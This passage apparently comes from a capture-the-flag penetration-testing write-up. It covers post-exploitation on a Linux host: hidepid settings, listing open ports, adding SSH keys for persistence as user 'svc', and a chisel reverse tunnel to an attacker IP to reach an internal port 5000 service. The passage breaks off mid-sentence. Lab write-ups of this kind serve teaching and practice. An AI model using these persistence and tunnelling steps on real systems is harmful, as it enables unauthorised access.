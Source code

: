 - **`hidepid=0`** – Default; all users can see all processes and details.
- **`hidepid=1`** – Users see only their own process details; others' PIDs are visible but info is restricted.
- **`hidepid=2`** – Users see only their own processes; others are completely hidden.

Listing open ports I see other ports are open;

```bash
ss -ntlpu
```

![image.png](image%206.png)

There is `mysql` server running but I don’t have credentials to access I am gonna try to access port 5000, by port forwarding with chisel.

But first let’s make our access persistent with SSH keys. First check if Key Authentication is allowed:

```bash
cat /etc/ssh/sshd_config| grep Pubkey
```

![image.png](image%207.png)

Now I am gonna make public and private key pair:

```bash
ssh-keygen -t rsa
```

**VERY important:**

- `.ssh` must be `700`
- `authorized_keys` must be `600`
- Owned by `svc`

Otherwise SSH **refuses** to use them.

![image.png](image%208.png)

**Chisel Reverse Port Forwarding**

```bash
**./chisel server --reverse --port 51234 #on attacker

./chisel client 10.10.14.12:51234 R:5000:127.0.0.1:5000 #on target**
```

Accessing the site I see it is the same as we saw before:

![image.png](image%209.png)

Gobuster Scan doesn’t return anything:

![image.png](image%2010.png)

Checking for other sites enabled I see:
